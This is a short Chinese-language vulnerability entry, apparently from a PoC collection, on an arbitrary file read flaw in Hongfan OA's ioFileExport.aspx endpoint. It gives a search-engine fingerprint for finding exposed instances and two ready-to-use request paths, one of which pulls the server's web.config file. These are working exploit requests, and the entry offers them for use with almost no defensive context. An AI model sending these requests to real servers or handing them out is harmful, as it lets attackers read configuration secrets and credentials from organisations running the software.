


# 红帆OA ioFileExport.aspx 任意文件读取漏洞

# 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>红帆OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="红帆-ioffice"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC, 读取web.config文件

```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```




```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```


